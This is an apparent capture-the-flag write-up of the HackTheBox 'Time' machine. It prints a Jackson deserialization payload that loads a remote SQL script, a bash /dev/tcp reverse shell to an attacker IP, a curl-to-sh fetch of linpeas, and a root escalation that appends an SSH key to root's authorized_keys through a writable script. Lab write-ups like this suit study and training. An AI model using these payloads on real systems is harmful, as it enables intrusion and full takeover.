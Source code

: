 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## {0x1} Scanning port

```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is the ssh / 22 port and the 80 / http port which are open.

We are going to see the http / 80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

I intercepted both options in burpsuite and i have just input sample JSON datain the input field, select Beautify option and click on the PROCESS button. We can see this working. 
Now try the same on "Validate! (Beta)" options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)

You got an error ! 
```
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## {0x2} Foothold

I pasted the error message: ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` on google, I came across an article from stackoverflow. article : https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array 

The error is related to Jackson Polymorphic Deserialization expected START_ARRAY.

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## {0x3} Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start python server where are your linpeas.sh file and curl to the target machine.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

We can see that root has been accessing this file: “/usr/bin/timer_backup.sh”. Which is owned by your user and writeable.

![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)

You need to create your ssh key, and you need to replace your ssh publickey to /root/.ssh/authorized_keys” >> /usr/bin/timer_backup.sh to do this follow commands :

```sh
ssh-keygen
( no passphrase ) 
Copy your id_rsa.pub key 
and paste this command in target machine : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Now : ```chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Got the root flag 

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```
## {0x4} Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation
